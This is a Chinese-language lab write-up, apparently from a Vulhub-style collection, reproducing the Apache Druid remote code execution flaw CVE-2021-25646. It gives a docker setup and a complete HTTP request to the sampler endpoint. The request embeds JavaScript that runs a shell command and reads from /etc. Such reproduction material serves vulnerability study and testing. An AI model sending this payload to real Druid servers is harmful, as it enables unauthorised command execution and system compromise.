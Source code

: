 # Apache Druid 代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid是一个开源的分布式数据存储。

Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。

参考链接：

- https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution
- https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

## 环境搭建

Vulhub执行如下命令启动一个Apache Druid 0.20.0服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

![image-20230504103329295](images/image-20230504103329295.png)

## 漏洞复现

直接发送如下请求即可执行其中的JavaScript代码：

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

可见，`id`命令已被成功执行：

![image-20230504103429330](images/image-20230504103429330.png)
